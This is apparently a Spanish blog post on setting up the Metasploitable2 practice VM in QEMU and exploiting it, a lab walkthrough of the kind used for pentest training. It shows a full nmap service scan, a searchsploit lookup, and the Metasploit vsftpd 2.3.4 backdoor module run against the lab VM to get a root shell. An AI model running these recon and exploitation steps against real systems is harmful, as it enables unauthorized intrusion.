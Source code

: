 ```yaml
---
title: Metasploitable2 en Qemu
date: 2025-07-15 19:00:00 +0200
categories: [hacking]
tags: [metasploitable2, qemu]     
image:
    path: https://upload.wikimedia.org/wikipedia/commons/9/9f/ARP_Cache_Poisoning.jpg 
    alt: 
---
```


## Descargar 
Metasploitable2 es una de las máquinas que ofrece Rapid7 para realizar prácticas de pentesting. 
La descarga es un fichero zip que contien los ficheros para hacer que la máquina en VirtualBox.Puedes descargar la máquina desde aquí:
[https://sourceforge.net/projects/metasploitable/files/Metasploitable2/metasploitable-linux-2.0.0.zip/download](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/metasploitable-linux-2.0.0.zip/download)

Es una máquina Linux con "vulnerabilidades". Incluye varios proyectos web con vulnerabilidades o con versiones vulnerables para practicar todo tipo de pruebas de penetración como TWiki, phpMyAdmin, Mutillidae, DVWA, WebDAV, aparte de las propias vulnerabilidades del sistema que sostienen esas web, la máquina virtual en si misma. 


Instala qemu-utils si no lo tienes:

``` shell
sudo apt install qemu-utils
```

## Conversión a QEMU
Como no me gusta instalar 20 tipos de sistemas de virtualización en mi máquina opté por convertir la imagen VMDK a QCOW2, de otra forma necesitaría instalar VirtualBox, pero podemos sortear este "inconveniente":

``` shell
qemu-img convert -f vmdk -O qcow2 Metasploitable.vmdk metasploitable2.qcow2
```

## Configuración red puente
Crear una conexión puente para poder comunicarnos con esta máquina remplaza **vmbridge** con el nombre de su interface de red puente. Usamos la opción bridge para usar un dispostivo virtual bridge, ver => [bridged-linux](../bridges-linux)

Ahora podemos lanzar la máquina, recuerda que para salir de la ventana en QEMU tenemos esta combinación de teclas "Ctrl + Alt + G" . 

Además hay que modificar el fichro /etc/qemu/bridge.conf si queremos que nuestro Qemu acepte usar ese puente. 

``` shell
allow vmbridge
```

## Metasploitables en QEMU
Lanzamos la imagen así, podemos cambiar los parámetros de memoria pero 2048 parece que es más que suficiente.

``` shell
sudo qemu-system-i386 -hda metasploitable2.qcow2 -m 2048 -net bridge,br=vmbridge
```
Ahora comprueba que tengas conectividad, con la VM, puedes comprobarlo haciendo ping u otra herramienta. 
Por ejemplo el navegador

Primer contacto web:
``` html

                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


    TWiki
    phpMyAdmin
    Mutillidae
    DVWA
    WebDAV
```
## Fase de reconocimiento
Escaneo Nmap:

``` shell
root@office:/home/pablo# nmap -p- -sV 192.168.2.225 -vv
....
PORT      STATE SERVICE     REASON         VERSION
21/tcp    open  ftp         syn-ack ttl 64 vsftpd 2.3.4
22/tcp    open  ssh         syn-ack ttl 64 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp    open  telnet      syn-ack ttl 64 Linux telnetd
25/tcp    open  smtp        syn-ack ttl 64 Postfix smtpd
53/tcp    open  domain      syn-ack ttl 64 ISC BIND 9.4.2
80/tcp    open  http        syn-ack ttl 64 Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp   open  rpcbind     syn-ack ttl 64 2 (RPC #100000)
139/tcp   open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp   open  exec        syn-ack ttl 64 netkit-rsh rexecd
513/tcp   open  login?      syn-ack ttl 64
514/tcp   open  shell       syn-ack ttl 64 Netkit rshd
1099/tcp  open  java-rmi    syn-ack ttl 64 GNU Classpath grmiregistry
1524/tcp  open  bindshell   syn-ack ttl 64 Metasploitable root shell
2049/tcp  open  nfs         syn-ack ttl 64 2-4 (RPC #100003)
2121/tcp  open  ftp         syn-ack ttl 64 ProFTPD 1.3.1
3306/tcp  open  mysql       syn-ack ttl 64 MySQL 5.0.51a-3ubuntu5
3632/tcp  open  distccd     syn-ack ttl 64 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp  open  postgresql  syn-ack ttl 64 PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp  open  vnc         syn-ack ttl 64 VNC (protocol 3.3)
6000/tcp  open  X11         syn-ack ttl 64 (access denied)
6667/tcp  open  irc         syn-ack ttl 64 UnrealIRCd
6697/tcp  open  irc         syn-ack ttl 64 UnrealIRCd
8009/tcp  open  ajp13?      syn-ack ttl 64
8180/tcp  open  unknown     syn-ack ttl 64
8787/tcp  open  drb         syn-ack ttl 64 Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
41015/tcp open  java-rmi    syn-ack ttl 64 GNU Classpath grmiregistry
51073/tcp open  mountd      syn-ack ttl 64 1-3 (RPC #100005)
55206/tcp open  nlockmgr    syn-ack ttl 64 1-4 (RPC #100021)
56510/tcp open  status      syn-ack ttl 64 1 (RPC #100024)

```
Para hacer más rápido un búsqueda de posibles exploits ahora que conocemos los puertos. 

21/tcp    open  ftp         syn-ack ttl 64 vsftpd 2.3.4

## Fase de preparación
``` shell
root@office:/home/pablo# searchsploit vsftpd
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                   |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption                                                                                                                   | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                                                                                                                   | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                                                                                                                   | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                                                                                                                 | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                                                        | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                           | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                                                                                                                                          | multiple/remote/49719.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Ahora desde Metasploit, podemos buscar el exploit que podríamos utilizar
``` shell
msf6 > search vsft

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/us
                                       ing-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhost 192.168.2.225
rhost => 192.168.2.225
```

## Explotación
Lanzamos el exploit y tenemos root shell. 

``` shell
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 192.168.2.225:21 - The port used by the backdoor bind listener is already open
[+] 192.168.2.225:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.122.15:46433 -> 192.168.2.225:6200) at 2025-07-17 14:38:47 -0400

whoami
root

```

Hay varias formas de explotar esta máquina y Internet está lleno de manuales para explotarlas, busca la que más te apetezca o inventate una.
